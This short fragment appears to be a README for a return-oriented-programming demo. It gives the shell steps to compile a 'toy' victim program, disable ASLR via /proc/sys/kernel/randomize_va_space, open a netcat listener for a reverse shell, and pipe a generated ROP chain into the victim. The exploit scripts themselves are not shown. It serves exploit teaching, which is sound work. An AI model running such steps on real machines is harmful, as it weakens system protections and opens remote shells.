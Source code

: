 setup the environment (Ubuntu 16.04)
```shell
gcc toy.c -o toy
ulimit -s unlimited
echo 0 > /proc/sys/kernel/randomize_va_space
```

listen to port 0x4141
```shell
nc -lvv 16705
```

generate the rop chain and send to the victim program
```shell
python toy.py | ./toy
```

now you should have got a shell
